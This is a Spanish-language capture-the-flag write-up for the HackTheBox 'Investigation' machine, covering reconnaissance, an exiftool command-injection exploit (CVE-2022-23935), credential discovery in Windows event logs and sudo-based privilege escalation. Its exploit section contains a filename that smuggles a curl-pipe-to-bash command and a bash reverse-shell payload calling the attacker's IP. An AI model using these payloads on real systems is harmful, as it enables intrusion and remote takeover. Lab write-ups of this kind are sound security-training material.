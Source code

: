 ```yaml
---
layout: single
title: HTB - Investigation writeup
date: 2023-02-09
classes: wide
header:
  teaser: /assets/images/HackTheBox/Investigation/Investigation.png
  teaser_home_page: true
categories:
  - HackTheBox  
  - Medium
tags:
  - Exiftool
  - Microsoft Outlook
  - Event log
  - Sudo
  - Reversing
---
```


![](/assets/images/HackTheBox/Investigation/Investigation.png)

En la máquina de hoy abusaremos de una version desactualizada de `exiftool` que nos permitirá ejecutar comandos y ganar acceso. Encontraremos un archivo `.msg` (correo electrónico de Microsoft Outlook) dentro de la máquina que contendrá un archivo `.zip` con eventos de windows (.evtx), gracias a los eventos podremos encontrar credenciales expuestas para conectarnos por **ssh** (user pivoting). Para la escalada de privilegios podremos ejecutar un binario como **root** sin necesidad de contraseña, tendremos que hacer reversing al binario para entender qué es lo que esta haciendo y poder ganar una consola como root.

## Índice
* [Nmap, Fuzzing y Reconocimiento](#nmap-fuzzing-y-reconocimiento)
* [Exiftool RCE](#exiftool-rce)
* [User Pivoting](#user-pivoting)
* [Reversing and Privilege Escalation](#reversing-and-privilege-escalation)

## Nmap, Fuzzing y Reconocimiento

Como siempre, en la fase de reconocimiento usamos nmap:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG nmap/Puertos.txt 10.10.11.197
```

```
Puertos.txt

# Nmap 7.92 scan initiated Tue Jan 31 08:16:10 2023 as: nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG nmap/Puertos.txt 10.10.11.197
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.197 ()   Status: Up
Host: 10.10.11.197 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///    Ignored State: closed (65533)
# Nmap done at Tue Jan 31 08:16:23 2023 -- 1 IP address (1 host up) scanned in 12.34 seconds
```

La máquina tiene 2 puertos abiertos, 22 y 80:

```bash
nmap -p22,80 -sVC -oN nmap/VersionServicios.txt 10.10.11.197
```

```
VersionServicios.txt

# Nmap 7.92 scan initiated Tue Jan 31 08:17:12 2023 as: nmap -p22,80 -sVC -oN nmap/VersionServicios.txt 10.10.11.197
Nmap scan report for eforenzics.htb (10.10.11.197)
Host is up (0.049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2f:1e:63:06:aa:6e:bb:cc:0d:19:d4:15:26:74:c6:d9 (RSA)
|   256 27:45:20:ad:d2:fa:a7:3a:83:73:d9:7c:79:ab:f3:0b (ECDSA)
|_  256 42:45:eb:91:6e:21:02:06:17:b2:74:8b:c5:83:4f:e0 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: eForenzics - Premier Digital Forensics
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan 31 08:17:21 2023 -- 1 IP address (1 host up) scanned in 9.67 seconds
```

Para enumerar un poco la página web por consola, antes de ir directamente al navegador, voy a utilizar `whatweb`.

![](/assets/images/HackTheBox/Investigation/whatweb.png)

La máquina está utilizando **Virtual Hosting**, para que nos resuelva tenemos que añadir una línea en el **/etc/hosts**

```
# Host addresses
127.0.0.1  localhost
127.0.1.1  parrot
::1        localhost ip6-localhost ip6-loopback
ff02::1    ip6-allnodes
ff02::2    ip6-allrouters
# Others

10.10.11.197   eforenzics.htb
```

![](/assets/images/HackTheBox/Investigation/whatweb2.png)

## Exiftool RCE

La página principal nos dice que que podemos subir una foto gratis y que nos harán forense a la foto que subamos.

> http://eforenzics.htb/service.html

![](/assets/images/HackTheBox/Investigation/upload.png)

Cuando subimos una foto cualquiera podremos confirmar que está utilizando `exiftool` para hacer forense a la foto, pero esta versión de exiftool es vulnerable a inyección de comandos (versiones menores a la 12.38).<br>

![](/assets/images/HackTheBox/Investigation/exiftool.png)

La inyección se acontece cuando el nombre del archivo termina con un pipe `|`.<br>

* [CVE-2022-23935](https://nvd.nist.gov/vuln/detail/CVE-2022-23935)

Para ejecutar comandos he copiado una imagen real  y la he llamado <code>`curl 10.10.14.174|bash` |</code>. Estaré compartiendo un servidor http con python para mandarme la **reverse shell**.

```bash
cp /home/ch3chu/Descargas/wallpaper.png '`curl 10.10.14.174|bash` |'
```

![](/assets/images/HackTheBox/Investigation/file.png)

```bash
echo -e '#!/bin/bash\nbash -c "bash -i >& /dev/tcp/10.10.14.174/443 0>&1"' > index.html
```

![](/assets/images/HackTheBox/Investigation/index.png)

Nos levantamos el servidor HTTP y a la vez nos ponemos a la escucha por el puerto **443**:

![](/assets/images/HackTheBox/Investigation/http.png)

Subimos la foto y recibimos la shell:

![](/assets/images/HackTheBox/Investigation/uploadPng.png)

![](/assets/images/HackTheBox/Investigation/www-data.png)

## User Pivoting

Al enumerar el sistema y buscar archivos de los usuarios existentes encontramos un archivo `.msg`.

![](/assets/images/HackTheBox/Investigation/find.png)

Los archivos con extensión **.msg** son archivos de correo electrónico en formato Microsoft Outlook. Representan mensajes de correo electrónico que se guardan localmente en el ordenador y se pueden abrir con Microsoft Outlook o cualquier otro programa que sea compatible con el formato **.msg**. Estos archivos contienen información sobre el remitente, el destinatario, el asunto, el cuerpo del mensaje, adjuntos y otras propiedades relacionadas con el correo electrónico. También pueden incluir información de seguimiento y elementos de calendario como citas y reuniones.<br>
Lo que hice en su momento fue transferirme este archivo a una máquina windows y darle doble click:

![](/assets/images/HackTheBox/Investigation/mensage.png)

Vemos que tiene un comprimido `zip` adjunto, si lo descomprimimos podemos ver que tiene un archivo con extensioin `evtx`, esta extensión se utiliza para los event log de windows. Lo más facil es transferirse este archivo a una máquina windows y darle doble click para poder inspeccionar los **logs** facilmente.<br>
En concreto hay un **ID de evento** *4776* que se registra cada vez que un controlador de dominio (DC) intenta validar las credenciales de una cuenta usando NTLM sobre Kerberos. Este evento también se registra para los intentos de inicio de sesión en la cuenta SAM local en estaciones de trabajo y servidores Windows, ya que NTLM es el mecanismo de autenticación predeterminado para el inicio de sesión local.

![](/assets/images/HackTheBox/Investigation/4776.png)

Vemos que hay credenciales expuestas, lo mas seguro es que sean del usuario `smorton`, lo cual me permite conectarme por **ssh**.

## Reversing and Privilege Escalation

Una vez estemos loggeados como `smorton` tenemos que volver a enumerar el sistema. Esta vez podemos ejecutar un binartio `/usr/bin/binary` como root sin necesidad de contraseña:

![](/assets/images/HackTheBox/Investigation/sudo.png)

Para saber un poco mejor que es lo que hace este ejecutable me creé un proyecto en `hydra` para poder leer el codigo en **C** y analizarlo. Básicamente este ejecutable primero valida si el número de argumentos que le estamos pasando es 3, si no, el programa sale; luego valida si el usuario que lo esta ejecutando es **root**, y por ultimo está comparando el ultimo argumento con una cadena de texto `lDnxUysaQn`, si no es la misma cadena se para el programa.

![](/assets/images/HackTheBox/Investigation/hydra.png)

Ahora que sabemos como ejecutar el programa correctamente, tenemos que entender que hace. Este trozo del codigo esta creando un archivo llamado como el último argumento que le pasemos, en este caso `lDnxUysaQn`, luego está realizando un curl al primero arugmento y lo esta guardando en el archivo creado.

![](/assets/images/HackTheBox/Investigation/hydra2.png)

Por último el programa está ejecutando el archivo `lDnxUysaQn` con perl.

![](/assets/images/HackTheBox/Investigation/hydra3.png)

Lo que me lleva a pensar es, ¿qué pasaría si pongo mi IP como primer argumento y me levanto un servidor HTTP con codigo en perl que me ejecute una bash?

![](/assets/images/HackTheBox/Investigation/index2.png)

![](/assets/images/HackTheBox/Investigation/index3.png)

![](/assets/images/HackTheBox/Investigation/root.png)
